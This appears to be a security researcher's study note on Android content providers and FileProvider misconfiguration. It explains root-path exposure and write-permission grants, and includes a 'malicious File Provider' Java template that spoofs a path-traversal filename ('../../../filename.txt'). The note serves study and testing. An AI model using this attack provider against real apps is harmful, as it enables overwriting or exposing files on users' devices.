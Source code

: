 ## Content Providers
[Content providers](https://developer.android.com/guide/topics/providers/content-providers) are components used to **store, manage and share data between multiple applications**. An example is WhatsApp accessing address book data. Due to the isolation between apps, in theory this would not be possible. However, the content provider in question allows one app to access the data of the other, thus allowing them to communicate and exchange data.

![|650](../../zzz_res/attachments/content-providers.png)

A content provider is only required if you need to share data between multiple applications. For example, the contacts data is used by multiple applications and must be stored in a content provider. If you don't need to share data amongst multiple applications you can use a database directly via [SQLiteDatabase](https://developer.android.com/reference/android/database/sqlite/SQLiteDatabase).

When a request is made via a [ContentResolver](https://developer.android.com/reference/android/content/ContentResolver) the system inspects the authority of the given URI and passes the request to the content provider registered with the authority. The content provider can interpret the rest of the URI however it wants. The [UriMatcher](https://developer.android.com/reference/android/content/UriMatcher) class is helpful for parsing URIs.

The primary methods that need to be implemented are:

- [`onCreate()`](https://developer.android.com/reference/android/content/ContentProvider#onCreate()) which is called to initialize the provider
- [`query(Uri, String, Bundle, CancellationSignal)`](https://developer.android.com/reference/android/content/ContentProvider#query(android.net.Uri,%20java.lang.String[],%20android.os.Bundle,%20android.os.CancellationSignal)) which returns data to the caller
- [`insert(Uri, ContentValues)`](https://developer.android.com/reference/android/content/ContentProvider#insert(android.net.Uri,%20android.content.ContentValues)) which inserts new data into the content provider
- [`update(Uri, ContentValues, Bundle)`](https://developer.android.com/reference/android/content/ContentProvider#update(android.net.Uri,%20android.content.ContentValues,%20android.os.Bundle)) which updates existing data in the content provider
- [`delete(Uri, Bundle)`](https://developer.android.com/reference/android/content/ContentProvider#delete(android.net.Uri,%20android.os.Bundle)) which deletes data from the content provider
- [`getType(Uri)`](https://developer.android.com/reference/android/content/ContentProvider#getType(android.net.Uri)) which returns the MIME type of data in the content provider
- `openFile()`

### FileProvider

[Android Jetpack](https://developer.android.com/jetpack) (or androidx) is a commonly used official library implementing lots of useful classes. Including the widely used [`FileProvider`](https://developer.android.com/reference/androidx/core/content/package-summary). Such a provider can easily be identified in the Android manifest where it references the `androidx.core.content.FileProvider` name.

```xml
<provider android:name="androidx.core.content.FileProvider"
          android:exported="false" 
          android:authorities="io.hextree.files"
          android:grantUriPermissions="true">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS" 
               android:resource="@xml/filepaths"/>
</provider>
```

Notable is the referenced XML file `filepaths.xml` which contains the configuration for this FileProvider.

```xml title:filepaths.xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <files-path name="flag_files" path="flags/"/>
    <files-path name="other_files" path="."/>
</paths>
```

A typical URI generated for this FileProvider could look like this `content://io.hextree.files/other_files/secret.txt`. Where the sections can be read like so:

- `content://` it's a content provider
- `io.hextree.files` the authority from the android manifest
- `other_files` which configuration entry is used
- `/secret.txt` the path of the file relative to the configured `path` in the .xml file

#### root_files

Compare the `filepaths.xml` to the `rootpaths.xml` file provider configuration. Why is the `<root-path>` considered "insecure"?

```xml title:filepaths.xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <files-path name="flag_files" path="flags/"/>
    <files-path name="other_files" path="."/>
</paths>
```

Remember that the file provider configuration is used to generate file sharing URIs such as `content://io.hextree.files/other_files/secret.txt`. These sections can be read like so:

- `content://` it's a content provider
- `io.hextree.files` the authority from the android manifest
- `other_files` which configuration entry is used
- `/secret.txt` the path of the file relative to the configured `path` in the .xml file


```xml title:rootpaths.xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path name="root_files" path="/"/>
</paths>
```

The file provider with a `<root-path>` configuration will generated URIs like this `content://io.hextree.files/root_files/data/data/io.hextree.attacksurface/files/secret.txt`. If we decode these sections we can see that this provider can map files of the entire filesystem

- `content://` it's a content provider
- `io.hextree.root` the authority from the android manifest
- `root_files` which configuration entry is used
- `/data/data/io.hextree.attacksurface/files/secret.txt` the path of the file relative to the configured `path`, which is mapped to the filesystem root!

In itself the `<root-path>` configuration is not actually insecure, as long as only trusted files are shared. But if the app allows an attacker to control the path to any file, it can be used to expose arbitrary internal files.

#### read or write permissions

Note that in decompiled code the integer constants `FLAG_GRANT_READ_URI_PERMISSION` are probably directly referenced. Which means:

- `addFlags(1)` = `FLAG_GRANT_READ_URI_PERMISSION`
- `addFlags(2)` = `FLAG_GRANT_WRITE_URI_PERMISSION`
- `addFlags(3)` = both `FLAG_GRANT_READ_URI_PERMISSION | FLAG_GRANT_WRITE_URI_PERMISSION`

If you have write permissions and you find a misconfigured file provider, you may be able to overwrite sensitive files or libraries, eventually finding [Remote Code Execution (RCE)](../Web%20&%20Network%20Hacking/Remote%20Code%20Execution%20(RCE).md) vulnerabilities.

## Snippets and PoC templates

### Malicious File Provider

You can use the following code snippet to implement a malicious File Provider that can spoof the filename.

```java
public class AttackProvider extends ContentProvider {
    public AttackProvider() {
    }

    @Override
    public Cursor query(Uri uri, String[] projection, String selection,
                        String[] selectionArgs, String sortOrder) {
        Log.i("AttackProvider", "query("+uri.toString()+")");

        MatrixCursor cursor = new MatrixCursor(new String[]{
                OpenableColumns.DISPLAY_NAME, OpenableColumns.SIZE
        });

        cursor.addRow(new Object[]{
                "../../../filename.txt", 12345
        });

        return cursor;
    }

    @Override
    public ParcelFileDescriptor openFile(Uri uri, @NonNull String mode) throws FileNotFoundException {
        Log.i("AttackProvider", "openFile(" + uri.toString() + ")");

        try {
            ParcelFileDescriptor[] pipe = ParcelFileDescriptor.createPipe();
            ParcelFileDescriptor.AutoCloseOutputStream outputStream = new ParcelFileDescriptor.AutoCloseOutputStream(pipe[1]);

            new Thread(() -> {
                try {
                    outputStream.write("<h1>File Content</h1>".getBytes());
                    outputStream.close();
                } catch (IOException e) {
                    Log.e("AttackProvider", "Error in pipeToParcelFileDescriptor", e);
                }
            }).start();

            return pipe[0];
        } catch (IOException e) {
            throw new FileNotFoundException("Could not open pipe for: " + uri.toString());
        }
    }

    @Override
    public int delete(Uri uri, String selection, String[] selectionArgs) {
        Log.i("AttackProvider", "delete("+uri.toString()+")");
        throw new UnsupportedOperationException("Not yet implemented");
    }

    @Override
    public String getType(Uri uri) {
        Log.i("AttackProvider", "getType("+uri.toString()+")");
        throw new UnsupportedOperationException("Not yet implemented");
    }

    @Override
    public Uri insert(Uri uri, ContentValues values) {
        Log.i("AttackProvider", "insert("+uri.toString()+")");
        throw new UnsupportedOperationException("Not yet implemented");
    }

    @Override
    public boolean onCreate() {
        Log.i("AttackProvider", "onCreate()");
        return true;
    }

    @Override
    public int update(Uri uri, ContentValues values, String selection,
                      String[] selectionArgs) {
        Log.i("AttackProvider", "update("+uri.toString()+")");
        throw new UnsupportedOperationException("Not yet implemented");
    }
}
```

## Example vulnerabilities
- Arbitrary file read/write using exported [Content Providers](Content%20Providers.md) [^file-read-content-provider-vault][^file-read-content-provider-element]
- Arbitrary file read/write from non-exported content providers that have the `grantUriPermission` enabled. The provider is generally not exported with `android:exported="false"` but the attribute `android:grantUriPermissions="true"` is set. This means the provider cannot be directly interacted with. But the app can allow another app to query the provider, when sending an [Intent](Intent.md) with a flag such as [`GRANT_READ_URI_PERMISSION`](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_READ_URI_PERMISSION). ^b4a712
- [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md) in [Content Providers](Content%20Providers.md)


[^file-read-content-provider-vault]: [Arbitrary file interaction using an exported content provider](https://0xbro.red/disclosures/disclosed-vulnerabilities/digital-private-vault/#arbitrary-file-interaction-using-an-exported-content-provider), 0xbro.red
[^file-read-content-provider-element]: [Element Android (<1.6.12) Sensitive file disclosure via share activity](https://www.shielder.com/advisories/element-android-sensitive-file-disclosure/), shielder.com